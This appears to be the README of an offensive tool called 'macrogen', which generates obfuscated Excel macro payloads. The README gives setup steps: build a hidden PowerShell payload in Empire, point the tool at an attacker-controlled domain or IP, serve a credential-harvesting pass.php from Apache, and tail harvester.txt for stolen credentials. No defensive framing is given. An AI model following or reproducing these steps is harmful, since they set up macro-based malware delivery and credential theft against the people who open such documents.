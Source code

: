 # macrogen
# Microsoft Excel macro payload obfuscation generator
# Usage: python macrogen.py [path to base64 encoded powershell payload] [attacker controlled domain name or external IP]
</br>
</br><b>Create the payload in Empire PowerShell</b>
</br>Remove "powershell.exe -NoP -NonI -W Hidden -Enc" from the payload created by Empire and save to a file.
</br>
</br><b>Copy pass.php and create harvester.txt in /var/www/html</b>
</br>cp pass.php /var/www/html/
</br>touch /var/www/html/harvester.txt
</br>
</br><b>Change ownership and permissions on harvester.txt and pass.php</b>
</br>chmod 755 /var/www/html/harvester.txt 
</br>chmod 755 /var/www/html/pass.php
</br>chown www-data:www-data /var/www/html/harvester.txt
</br>chown www-data:www-data /var/www/html/pass.php
</br>
</br><b>Start Apache on TCP port 80</b>
</br>service apache2 start
</br>
</br><b>Monitor the harvester.txt iile for creds</b>
</br>tail -f /var/www/html/harvester.txt
</br>

